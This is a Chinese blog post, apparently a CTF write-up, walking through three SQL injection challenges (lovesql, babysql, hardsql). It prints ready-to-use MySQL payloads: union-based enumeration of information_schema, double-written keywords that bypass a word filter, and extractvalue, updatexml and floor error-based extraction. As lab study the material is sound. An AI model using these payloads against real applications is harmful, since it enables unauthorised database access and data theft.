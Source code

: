 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(一)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-01             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


> 以下为做完题之后的整理，对于个人来说为了形成一个测试流程习惯

## 0x00：堆叠注入-lovesql
首先进入页面，发现有两个输入框，分别对于用户名和密码加上单引号测试闭合。  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekjmd8ewj30kx0d20xo.jpg)  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjdkyzuj30i905574a.jpg)  
报错点在密码处，首先尝试最简单的联合注入查询，通过select 语句探询字段数以及观察回显字段。  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdekmavozaj30hr0atgol.jpg)  
发现在第三个字段回显信息，那个我们可以利用以下语句找到flag。
` 123' union select 1,2,concat(database())#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmi7h0aj30ej0ao41e.jpg)  
` 123' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmdqsw5j30hs06xac2.jpg)  
` 123' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklt62lnj30hw067dho.jpg)  
` 123' union select 1,2,group_concat(password) from l0ve1ysq1#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklq9wxpj30ho0aiq5f.jpg)  
找到flag，copy下来就容易看出了。  
总结一下：该sqli没有过滤，在使用联合查询注入这个简单注入时没有受到阻拦，使用group_concat是为了将整个字段的内容连接起来避免遗漏，
使用到了mysql特性数据库information_schema库，本次练习旨在提高熟悉程度以及小知识点的巩固。

## 0x01绕过简单规则-babysql
首先进入页面，依旧测试注入点，依旧和上述一样，用户密码为不同的输入，都加上单引号测试闭合以及注入点，这里就暂时不放上来了。   
测试一下联合注入：`123' union select 1,2,3#`  
报错回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklmrmqpj30c103t742.jpg)  
仔细一看，我们的union和select去哪了？？？？原来过滤规则将union、select替换为空字符，可以猜测敏感词都会替换为空，分析一下，用户的输入会经过一次遍历，查找到危险词汇就会替换为空。
由之前学习得知，双写这些词，就可以绕过：`123' uniunionon seleselectct 1,2,3#` 
成功回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklj3x8jj30ej0afgoo.jpg)  
那么我们就来fuzz一下，看看哪些词会被替换成空，打开burp，接下来就是载入自己的sql字典遍历一下看一看：  
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdeklg1hjcj30t10epabv.jpg)  
这就知道了哪些词汇会被替换，我们要使用的时候直接双写！！！
由于步骤和以上一样，就简单记录一下payload，不放图了（有点懒哈哈哈哈）  
` 123' uniunionon seleselectct 1,2,concat(database())#`  
` 123' uniunionon seleselectct 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#`  
` 123' uniunionon seleselectct 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#`  
` 123' uniunionon seleselectct 1,2,group_concat(passwoorrd) frfromom b4bsql#`  
总结一下：该题目添加了简单的过滤规则，输入比较容易绕过的类型，此处我使用了burp去遍历过滤词，便于后续的payload构造，此处依旧是联合注入，还是比较简单的一道题目。

## 0x02hardsql
首先进入页面，依旧开始测试注入点，还是和之前一样，密码为注入点，单引号闭合，#没有过滤，接着测试联合注入，页面响应为：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekl09bgxj30px0budkt.jpg)  
有过滤规则，统一了错误页面，那么开始测试哪些sql用词被过滤，依旧打开burp，遍历过滤词：  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkx4c9vj30s90gi767.jpg)  
可以看到过滤了空格、等号这些偏符号的都过滤了，联合注入也不能使用了，尝试堆叠注入，由于堆叠注入的使用条件非常有限，我们测试一下看看：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkstgcij30md08qdhf.jpg)  
可以看出这大概是不行的了，没法执行多条语句。接下来剩下报错注入和盲注，先尝试报错注入，所用到的所有词都没有过滤，由于这里空格被过滤了，用其他符号来代替完成：  
`123'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekkpz8qdj30b705vgmg.jpg)  
报错信息回显，利用xpath错误回显我们需要的信息,那么就是说我们报错注入是成功的，接下来构造相关语句：
`123'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekkmqoczj30ba06fq3y.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjvam81j30dg08d40d.jpg)  
`123'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekjrvog0j30f205tt9v.jpg)  
咦，这个时候只显示了一半，搜索了一下，发现extractvalue和updatexml这两个常用的报错注入函数能查询的字符串最大长度为32，在显示内容过多时，可用截取函数substr或者left，right来截取或者使用concat函数的参数位置调换以此获取前后信息。  
这里我们就利用left或者right来尝试一下  
`123'^extractvalue(1,concat(0x7e,(select(right((password),30))from(H4rDsq1)),0x7e))#`    
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjpb7p0j30ib07fdhu.jpg)  
这个时候我们拼接一下就完成了，这里总结以下：题目存在统一错误页面而且有错误信息回显，报错注入有一些会使用函数参数来返回错误信息，这一题使用到的是extractvalue，同类型的还有updatexml，都是利用xpath报错返回信息。    
通过ExtractValue报错,注入语句如下:
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`  
通过UpdateXml报错,注入语句如下:
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`   
拓展一下经常看见的双查询：
通过floor报错,注入语句如下:
`and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);`这个报错查询主要是利用主键重复产生错误信息来回显。















